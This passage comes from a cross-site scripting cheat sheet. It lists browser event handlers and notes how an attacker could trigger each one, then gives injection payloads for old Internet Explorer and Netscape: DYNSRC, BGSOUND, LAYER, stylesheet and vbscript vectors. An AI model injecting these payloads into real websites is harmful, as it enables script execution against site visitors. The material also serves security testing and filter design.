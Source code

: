 ```
initialize with something like:
<SCRIPT>self.resizeTo(500,400);</SCRIPT>)
67. onResizeEnd() (user would resize the window; attacker could auto
initialize with something like:
<SCRIPT>self.resizeTo(500,400);</SCRIPT>)
68. onResizeStart() (user would resize the window; attacker could auto
initialize with something like:
<SCRIPT>self.resizeTo(500,400);</SCRIPT>)
69. onRowEnter() (user or attacker would need to change a row in a data
source)
70. onRowExit() (user or attacker would need to change a row in a data
source)
71. onRowDelete() (user or attacker would need to delete a row in a
data source)
72. onRowInserted() (user or attacker would need to insert a row in a
data source)
73. onScroll() (user would need to scroll, or attacker could use the
scrollBy() function)
74. onSelect() (user needs to select some text - attacker could auto
initialize with something like:
window.document.execCommand("SelectAll");)
75. onSelectionChange() (user needs to select some text - attacker
could auto initialize with something like:
window.document.execCommand("SelectAll");)
76. onSelectStart() (user needs to select some text - attacker could
auto initialize with something like:
window.document.execCommand("SelectAll");)
77. onStart() (fires at the beginning of each marquee loop)
78. onStop() (user would need to press the stop button or leave the
webpage)
79. onSubmit() (requires attacker or user submits a form)
80. onUnload() (as the user clicks any link or presses the back button
or attacker forces a click)

```
IMG Dynsrc (works in IE):
```
<IMG DYNSRC="javascript:alert('XSS')">
```
Input Dynsrc and Src (This XSS works in IE but remember to use TYPE="image"):
```
<INPUT TYPE="image" DYNSRC="javascript:alert('XSS');">
```
BGSOUND (works in IE):
```
<BGSOUND SRC="javascript:alert('XSS');">
```
& JS includes (works in Netscape 4.x):
```
<br size="&{alert('XSS')}">
```
Layer (also only works in Netscape 4.x):
```
<LAYER SRC="http://k2decompiler.com"></layer>
```
Style sheet:
```
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```
VBscript in an image:
```
<IMG SRC='vbscript:msgbox("XSS")'>
```

